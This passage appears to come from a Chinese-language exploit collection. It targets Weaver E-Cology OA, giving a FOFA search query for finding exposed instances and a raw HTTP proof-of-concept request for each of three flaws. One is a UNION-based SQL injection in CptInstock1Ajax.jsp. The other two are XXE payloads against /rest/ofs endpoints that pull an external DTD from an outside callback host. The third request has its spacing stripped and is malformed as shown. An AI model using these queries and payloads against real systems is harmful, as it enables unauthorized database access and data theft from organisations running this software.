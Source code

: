 ### 2.1.13泛微E-Cology系统接口CptInstock1Ajax存在SQL注入漏洞  
  
泛微E-Cology系统接口CptInstock1Ajax存在SQL注入漏洞，可获取数据库权限，导致数据泄露。  
- fofa  
app="泛微-OA（e-cology）"  
- poc  
```
GET /cpt/capital/CptInstock1Ajax.jsp?id=-99+UNION+ALL+SELECT+@@VERSION,1# HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
  
### 2.1.14泛微E-Cology系统接口deleteRequestInfoByXml存在XXE漏洞  
  
泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology系统接口/rest/ofs/deleteRequestInfoByXml  
 存在XXE漏洞  
- fofa  
app="泛微-协同商务系统"  
- poc  
```
POST /rest/ofs/deleteRequestInfoByXml HTTP/1.1
Host: 
Content-Type: application/xml
Content-Length: 131

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE syscode SYSTEM "http://hsdtcwwetk.dgrh3.cn">
<M><syscode>&send;</syscode></M>
```  
  
  
### 2.1.15泛微E-Cology系统接口ReceiveCCRequestByXml存在XXE漏洞  
  
泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology系统接口/rest/ofs/ReceiveCCRequestByXml  
 存在XXE漏洞  
- fofa  
app="泛微-协同商务系统"  
- poc  
```
POST /rest/ofs/ReceiveCCRequestByXml HTTP/1.1
Host:{{Hostname}}
User-Agent:Mozilla/5.0(WindowsNT10.0;WOW64)AppleWebKit/537.36(KHTML, likeGecko)Chrome/71.0.3578.98Safari/537.36
Content-Type:application/xml

<?xmlversion="1.0"encoding="utf-8"?>
<!DOCTYPEsyscodeSYSTEM"http://xxx.xxxx.com">
<M><syscode>&send;</syscode></M>
```  
  